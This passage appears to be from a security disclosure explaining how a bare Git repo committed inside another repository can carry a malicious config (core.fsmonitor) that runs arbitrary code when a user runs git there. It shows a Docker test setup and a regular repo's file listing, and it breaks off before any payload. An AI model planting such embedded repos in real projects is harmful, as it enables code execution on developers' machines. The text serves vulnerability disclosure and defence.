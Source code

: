 By this logic, a "bare repo" does not involve a file named `.git`. Thus, a bare Git repo can be embedded in a subdirectory of another Git repo. The files comprising the bare repo can be added and committed to the Git repo as regular files, and will be checked out when the repo is `clone`d or `pull`ed.

The embedded Git repo can have a malicious `config` file, which can cause the user's `git` utility to execute arbitrary code if the user performs a Git operation while within the subdirectory containing the bare repo (or a child directory thereof).

## POC - regular vs. bare repos, and adding a `core.fsmonitor` payload to a bare repo

This POC uses the following Docker image:

```plain
% cat Dockerfile
FROM debian:sid

RUN \
    apt-get update && \
    apt-get install -y git && \
    git config --global init.defaultBranch main && \
    git config --global user.name "Your Name" && \
    git config --global user.email "you@example.com"

% sudo -g docker docker build --tag=justinsteven/git .
[... SNIP ...]
Successfully built 63dea543bbaf
Successfully tagged justinsteven/git:latest

% sudo -g docker docker run --rm -ti justinsteven/git bash

root@f3eed6860a67:/# git --version
git version 2.32.0
```

A regular Git repo looks like this:

```plain
root@f3eed6860a67:/# cd $(mktemp -d)

root@f3eed6860a67:/tmp/tmp.NZmB2Hmt1V# git init

Initialized empty Git repository in /tmp/tmp.NZmB2Hmt1V/.git/

root@f3eed6860a67:/tmp/tmp.NZmB2Hmt1V# find -ls
  1310832      4 drwx------   3 root     root         4096 Jul 25 02:04 .
  1310837      4 drwxr-xr-x   7 root     root         4096 Jul 25 02:04 ./.git
  1310838      4 drwxr-xr-x   2 root     root         4096 Jul 25 02:04 ./.git/info
  1310839      4 -rw-r--r--   1 root     root          240 Jul 25 02:04 ./.git/info/exclude
  1310901      4 -rw-r--r--   1 root     root           92 Jul 25 02:04 ./.git/config
  1310899      4 -rw-r--r--   1 root     root           21 Jul 25 02:04 ./.git/HEAD
  1310840      4 drwxr-xr-x   2 root     root         4096 Jul 25 02:04 ./.git/branches
  1310896      4 drwxr-xr-x   4 root     root         4096 Jul 25 02:04 ./.git/refs
  1310898      4 drwxr-xr-x   2 root     root         4096 Jul 25 02:04 ./.git/refs/tags
  1310897      4 drwxr-xr-x   2 root     root         4096 Jul 25 02:04 ./.git/refs/heads
  1310841      4 -rw-r--r--   1 root     root           73 Jul 25 02:04 ./.git/description
  1310900      4 drwxr-xr-x   4 root     root         4096 Jul 25 02:04 ./.git/objects
  1310902      4 drwxr-xr-x   2 root     root         4096 Jul 25 02:04 ./.git/objects/pack
  1310903      4 drwxr-xr-x   2 root     root         4096 Jul 25 02:04 ./.git/objects/info
  1310842      4 drwxr-xr-x   2 root     root         4096 Jul 25 02:04 ./.git/hooks
  1310843      4 -rwxr-xr-x   1 root     root         2783 Jul 25 02:04 ./.git/hooks/push-to-checkout.sample
  1310844      4 -rwxr-xr-x   1 root     root          189 Jul 25 02:04 ./.git/hooks/post-update.sample
```